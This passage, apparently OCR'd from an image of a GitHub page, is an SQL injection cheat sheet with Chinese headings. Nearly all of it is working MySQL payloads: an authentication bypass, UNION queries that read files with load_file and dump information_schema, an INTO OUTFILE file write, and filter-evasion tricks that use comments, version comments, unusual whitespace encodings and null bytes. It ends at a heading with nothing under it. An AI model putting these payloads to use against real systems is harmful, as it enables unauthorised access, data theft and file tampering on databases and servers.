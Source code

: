 ``` sql
  
adm' 'in' or 1='1        // auth bypass
  
'-(1)union(select table_name,load_file('/tmp/test'),@@version
  
from /*! information_schema.tables */);%00    //select union
  
'-'' into%a0outfile '/tmp/test   //write to file
  
```
  

  
c) SQLi Filter Evasion Cheat sheet
  
``` sql
  
#注释
  
' or 1=1#
  
' or 1=1/* (MySQL < 5.1)
  
' or 1=1;%00
  
' or 1=1 union select 1,2 as `
  
' or#newline
  
' /*!50000or*/1='1
  
' /*!or*/1='1
   
#前缀
  
+ – ~ !
  
' or –+2=- -!!!'2
#操作符：
  
^, =, !=, %, /, *, &, &&, |, ||, , >>, <=, <=, ,, XOR, DIV, LIKE, SOUNDS LIKE, RLIKE, REGEXP, LEAST,
  
GREATEST, CAST, CONVERT, IS, IN, NOT, MATCH, AND, OR, BINARY, BETWEEN, ISNULL 
#空格
  
%20 %09 %0a %0b %0c %0d %a0 /**/
  
'or+(1)sounds/**/like"1"–%a0-
  
'union(select(1),tabe_name,(3)from`information_schema`.`tables`)#
#有引号的字符串
  
SELECT 'a'
  
SELECT "a"
  
SELECT n'a'
  
SELECT b'1100001'
  
SELECT _binary'1100001'
  
SELECT x'61'
#没有引号的字符串
```